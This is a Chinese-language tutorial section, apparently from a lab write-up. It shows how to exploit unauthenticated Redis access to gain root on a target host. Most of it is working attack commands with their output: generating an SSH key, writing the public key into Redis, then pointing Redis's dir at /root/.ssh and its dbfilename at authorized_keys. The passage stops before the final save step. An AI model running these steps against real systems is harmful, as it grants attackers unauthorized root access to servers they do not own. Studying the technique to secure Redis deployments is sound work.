 # 三、漏洞利用

必要条件：

- 目标机的redis服务存在未授权访问，在攻击机上能用redis-cli连上，没有登录验证
- 知道路径（如利用phpinfo，或者错误爆路经），还需要具有文件读写增删改查权限

## 3.1 利用密钥对获取root权限

```
#以kali为攻击机，扫描目标机的端口，发现开启了6379端口redis服务，按照第二步的步骤在kali上也安装好redis

#在kali上生成ssh密钥对，密码设置为空
root@kali:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
/root/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:bTHVp5nImet8DprL1EHxikrHOts62DGQc97cwWsXTVw root@kali
The key's randomart image is:
+---[RSA 3072]----+
|            o. .E|
|           . o. +|
|       .  oo.+.B |
|      + .o =B.= .|
|       =So*.o+ . |
|       .+=o.=..  |
|       o+o.+o.   |
|      . o* oo..  |
|        oo*. o.  |
+----[SHA256]-----+


#将生成的公钥保存为1.txt(这里使用echo -e处理特殊字符，否则redis)
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") >1.txt


#将保存ssh的公钥1.txt写入redis数据库
root@kali:~/.ssh# cat 1.txt | redis-cli -h 172.16.105.192 -x set crack
OK
root@kali:~/.ssh# 

#在kali上连接目标redis服务器，查看redis备份路径
root@kali:~/.ssh# redis-cli -h 172.16.105.192
172.16.105.192:6379> config get dir
1) "dir"
2) "/root"

#更改redis备份路径为.ssh/
root@kali:~/.ssh# redis-cli -h 172.16.105.192
172.16.105.192:6379> CONFIG SET dir /root/.ssh
OK

#设置文件名为authorized_keys
172.16.105.192:6379> CONFIG SET dbfilename authorized_keys
OK
172.16.105.192:6379> 

```